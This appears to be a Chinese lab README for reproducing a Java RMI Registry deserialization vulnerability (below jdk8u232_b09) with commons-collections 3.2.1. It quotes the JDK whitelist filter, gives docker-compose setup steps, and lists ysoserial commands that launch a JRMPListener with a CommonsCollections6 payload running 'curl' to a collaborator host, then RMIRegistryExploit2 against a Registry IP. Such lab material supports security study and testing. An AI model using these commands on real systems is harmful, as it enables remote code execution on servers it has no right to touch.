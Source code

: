 # Java RMI Registry 反序列化漏洞(<jdk8u232_b09)

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

自jdk8u121起，Registry对反序列化的类做了白名单限制

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在上面的几个白名单里面找到相应的可利用的类，具体见

## 漏洞环境

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过[ysoserial](https://github.com/wh1t3p1g/ysoserial)的exploit包中的RMIRegistryExploit2或者3进行攻击
```bash
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![image-20200206135822418](assets/README/image-20200206135822418.png)

Registry会返回报错，这个没关系正常，命令会正常执行。